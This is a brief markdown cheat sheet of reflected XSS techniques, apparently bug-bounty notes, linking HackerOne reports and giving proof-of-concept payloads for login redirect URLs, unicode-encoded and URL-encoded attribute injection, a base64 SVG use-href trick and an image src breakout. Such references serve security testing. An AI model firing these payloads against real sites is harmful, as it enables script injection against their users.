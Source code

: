 ## Reflected
### XSS at login redirect_url
* https://hackerone.com/reports/2055132
* https://hackerone.com/reports/1167272
* https://hackerone.com/reports/1502099
* Payload - `javascript:alert(document.domain)`

#### Unicode encoded
* https://hackerone.com/reports/1363001
* payload - `\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e`

#### 404 page 
* https://hackerone.com/reports/1892317
* payload - `%22%20onmouseover=%22prompt(1)%22%20x=%22`

#### Post parameter
* https://hackerone.com/reports/2051085

#### SVG Payload 
* https://hackerone.com/reports/1694173
* payload - `<svg><use href=\"data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEzMzcnIGhlaWdodD0nMTMzNyc+CjxpbWFnZSBocmVmPSIxIiBvbmVycm9yPSJhbGVydCh3aW5kb3cub3JpZ2luKSIgLz4KPC9zdmc+#x\"/></svg>`

#### XSS in `value=large-5.jpg` in url
* as this value is reflected image tag src by comming out of src attribute u can fire rxss

